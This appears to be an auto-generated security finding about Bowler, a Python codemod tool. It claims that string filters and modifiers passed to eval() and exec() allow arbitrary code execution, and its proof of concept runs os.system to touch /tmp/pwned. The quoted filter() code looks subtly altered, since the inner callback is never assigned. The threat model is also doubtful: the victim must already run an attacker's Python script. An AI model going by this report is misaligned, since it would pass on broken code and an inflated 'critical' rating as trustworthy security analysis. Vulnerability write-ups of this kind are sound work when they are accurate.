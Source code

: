- vulnerability name: Arbitrary Code Execution via String-based Filter/Modifier Callbacks
- description:
  - Bowler allows users to define filters and modifiers as strings, which are then evaluated using `eval()` for filters and `exec()` for modifiers.
  - An attacker can craft a malicious Python file that, when processed by Bowler, includes a Bowler query with a string-based filter or modifier.
  - This malicious string can contain arbitrary Python code.
  - When Bowler executes the query on the target code base, it will compile and execute the attacker-controlled string using `eval()` or `exec()` within the Bowler process.
  - This leads to arbitrary code execution in the context of the Bowler application.
- impact:
  - Arbitrary code execution on the machine running Bowler.
  - An attacker can gain full control over the system, steal sensitive data, install malware, or perform other malicious actions.
- vulnerability rank: critical
- currently implemented mitigations:
  - None. The feature itself is the vulnerability.
- missing mitigations:
  - Remove the ability to define filters and modifiers as strings.
  - If string-based callbacks are absolutely necessary, implement a secure sandbox or restrict the execution environment to prevent arbitrary code execution. However, removing the feature is the most secure approach.
- preconditions:
  - The attacker needs to provide a malicious Python file that contains a Bowler query using string-based filters or modifiers.
  - The victim needs to execute Bowler on this malicious file.
- source code analysis:
  - File: `/code/bowler/query.py`
  - Method: `filter(self, filter_callback: Union[str, Filter])`
  ```python
  def filter(self, filter_callback: Union[str, Filter]) -> "Query":
      if isinstance(filter_callback, str):
          code = compile(filter_callback, "<string>", "eval")

          def callback(node: Node, capture: Capture, filename: Filename) -> bool:
              return bool(eval(code))  # noqa: developer tool

      filter_callback = cast(Filter, filter_callback)
      self.current.filters.append(filter_callback)
      return self
  ```
  - The `filter` method in `Query` class takes `filter_callback` as an argument which can be a string.
  - If `filter_callback` is a string, it's compiled using `compile(filter_callback, "<string>", "eval")`.
  - Then a callback function is created which executes `eval(code)`.
  - Similarly, in `modify(self, callback: Union[str, Callback])` method:
  ```python
  def modify(self, callback: Union[str, Callback]) -> "Query":
      if isinstance(callback, str):
          code = compile(callback, "<string>", "exec")

          def callback(node: Node, capture: Capture, filename: Filename) -> None:
              exec(code)

      callback = cast(Callback, callback)
      self.current.callbacks.append(callback)
      return self
  ```
  - The `modify` method in `Query` class takes `callback` as an argument which can be a string.
  - If `callback` is a string, it's compiled using `compile(callback, "<string>", "exec")`.
  - Then a callback function is created which executes `exec(code)`.
  - In both cases, user-provided strings are executed as Python code, leading to potential arbitrary code execution.
- security test case:
  - Step 1: Create a malicious Python file named `malicious_codemod.py` with the following content:
    ```python
    from bowler import Query
    import os

    def main():
        malicious_filter = 'os.system("touch /tmp/pwned") or True'
        Query(['.']).select_root().filter(malicious_filter).write()

    if __name__ == '__main__':
        main()
    ```
    This script defines a Bowler query with a string-based filter that executes the command `touch /tmp/pwned`. The `or True` is added to make the filter always return True and not interfere with Bowler's logic.
  - Step 2: Run Bowler with the malicious script, targeting any Python file (or even an empty directory):
    ```bash
    bowler run malicious_codemod.py -- .
    ```
  - Step 3: Check if the file `/tmp/pwned` has been created.
    ```bash
    ls /tmp/pwned
    ```
    If the file `/tmp/pwned` exists, it confirms that the arbitrary code within the string-based filter was executed by Bowler.
    - Expected result: The file `/tmp/pwned` should be created, demonstrating arbitrary code execution.